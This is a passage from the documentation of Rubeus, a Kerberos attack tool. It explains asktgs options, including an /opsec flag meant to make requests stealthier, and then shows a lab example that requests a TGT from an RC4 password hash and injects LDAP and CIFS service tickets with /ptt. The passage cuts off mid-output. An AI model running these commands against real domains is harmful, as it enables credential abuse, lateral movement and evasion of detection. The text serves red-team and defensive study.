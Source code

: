 The supported encryption types in the constructed TGS-REQ will be RC4_HMAC, AES128_CTS_HMAC_SHA1, and AES256_CTS_HMAC_SHA1. In this case, the highest mutually supported encryption will be used by the KDC to build the returned service ticket. If you want to force DES, RC4, or AES128/256 keys, use `/enctype:[RC4|AES128|AES256|DES]`.

In order to request a service ticket for an account using an enterprise principal (i.e. *user@domain.com*), the `/enterprise` flag can be used.

By default, several differences exists between TGS-REQ's generated by Rubeus and genuine TGS-REQ's. To form TGS-REQ's more inline with genuine requests, the `/opsec` flag can be used, this will also cause an additional TGS-REQ to be sent automatically when a service ticket is requested for an account configured for unconstrained delegation. As this flag is intended to make Rubeus traffic more stealthy, it cannot by default be used with any encryption type other than `aes256` and will just throw a warning and exit if another encryption type is used. To allow for other encryption types to be used with the `/opsec` changes, the `/force` flag exists.

To play with other scenarios manually, `/tgs:X` can be used to supply an additional ticket which is appended to the request body. This also adds the constrained delegation KDC option as well as avoids dynamically determining the domain from the given SPN `/service:X`, for this reason the `/usesvcdomain` flag has been implemented to force the request to use the domain from the given SPN `/service:X` which is useful for requesting delegated service tickets from a foreign domain.


Requesting a TGT for dfm.a and then using that ticket to request a service ticket for the "LDAP/primary.testlab.local" and "cifs/primary.testlab.local" SPNs:

    C:\Rubeus>Rubeus.exe asktgt /user:dfm.a /rc4:2b576acbe6bcfda7294d6bd18041b8fe

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\dfm.a'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 230 bytes
    [*] Received 1537 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

        doIFmjCCBZagAwIBBaEDAgEWoo...(snip)...

    C:\Rubeus>Rubeus.exe asktgs /ticket:doIFmjCCBZagAwIBBaEDAgEWoo...(snip)... /service:LDAP/primary.testlab.local,cifs/primary.testlab.local /ptt

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/
